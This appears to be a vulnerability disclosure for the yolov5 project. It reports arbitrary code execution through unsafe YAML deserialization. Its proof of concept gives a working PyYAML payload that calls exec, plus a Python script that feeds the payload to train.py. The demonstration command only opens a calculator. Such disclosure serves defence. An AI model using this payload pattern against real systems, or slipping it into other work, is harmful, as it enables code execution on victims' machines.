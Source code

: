# Description

`yolov5` is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/Learninglogs/yolov5
```

### Run exploit.py
```
import os
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
#os.system('git clone https://github.com/Learninglogs/yolov5')
os.chdir('yolov5/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python train.py --data exploit.yml --cfg exploit.yml --weights "" --batch-size 24')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
